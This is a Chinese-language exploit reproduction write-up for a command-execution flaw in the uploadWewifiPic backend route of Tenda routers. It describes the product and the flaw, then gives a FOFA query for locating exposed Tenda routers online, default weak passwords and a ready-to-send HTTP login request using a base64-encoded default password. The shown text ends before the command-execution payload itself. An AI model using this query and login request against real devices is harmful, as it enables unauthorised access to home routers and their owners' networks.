 
# Tenda 路由器 uploadWewifiPic 后台 RCE 漏洞复现

### 0x01 产品简介

 腾达[路由器](https://so.csdn.net/so/search?q=%E8%B7%AF%E7%94%B1%E5%99%A8&spm=1001.2101.3001.7020)是一款高效实用的路由器，致力于为家庭用户提供舒适、便捷、自然的智慧家庭体验。简单便捷的部署在家庭中，彻底解决家庭用户的网络接入问题。

### 0x02 漏洞概述

 腾达路由器后台 uploadWewifiPic 路由存在[命令执行漏洞](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者可利用漏洞执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="Tenda-路由器"

### ![](assets/1701746633-59fe628d0e39b972cdbfc9b4eaab5952.png)0x04 漏洞复现 

默认弱口令登录

账号：admin  密码：guest、admin 等（base64 编码）也可以登录页面直接尝试

```http
POST /login/Auth HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 34

username=admin&password=Z3Vlc3Q%3D
```

![](assets/1701746633-9a585cd8023ac2db7003aba13d4ca68c.png)
